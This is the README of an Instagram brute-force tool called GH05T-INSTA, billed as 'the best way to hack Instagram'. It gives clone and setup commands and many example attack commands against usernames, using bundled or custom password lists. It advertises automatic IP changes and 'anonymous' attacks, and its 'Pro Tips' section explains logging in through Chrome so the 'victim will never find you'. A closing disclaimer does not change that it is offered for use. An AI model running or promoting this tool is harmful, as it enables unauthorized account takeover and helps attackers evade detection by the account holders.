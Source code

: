
<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 {Linux}<p id="install"></p>

`install home/`

`$ cd home`

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
## Linux Installation 3.01 

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
* You can use two ways 🤺

01 ) Command Based ⬇️ (root)

## Usage Commands 

<b>AUTO ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ ./gh05t --user your-account-username --pass your-password-option 
$ ./gh05t --user mr_77778#8 --pass 2 
$ ./gh05t --user mr_fqake#@ --pass 3 
$ ./gh05t --user jdjza888#8 --pass 4 
$ ./gh05t --user gersman_9#6# --pass 6 
$ ./gh05t --user mr_77bd778#8 --pass 7 
$ ./gh05t --user ar_fake#@ --pass 8 
$ ./gh05t --user li888#8 --pass 9 
$ ./gh05t --user mtrman_9#6# --pass 10 
$ ./gh05t --user jr_77778#8 --pass 11 
$ ./gh05t --user ig_fake#@ --pass 12 
$ ./gh05t --user hsjza888#8 --pass 13 
$ ./gh05t --user gelian_9#6# --pass 14 
$ ./gh05t --user gehsghan_9#6# --pass 15 
$ ./gh05t --user jr7778#s8 --pass 16 
$ ./gh05t --user igahacke#@ --pass 17 
$ ./gh05t --user hsjd888#8 --pass 18 
$ ./gh05t --user gehdhan_9#6# --pass 19 
$ ./gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

`$ cd GH05T-INSTA`
```
$ ./gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ ./gh05t --user username --passadd pwdlocation-and-name
$ ./gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ ./gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ ./gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ ./gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ ./gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ ./gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ ./gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ ./gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ ./gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ ./gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ ./gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ ./gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ ./gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```
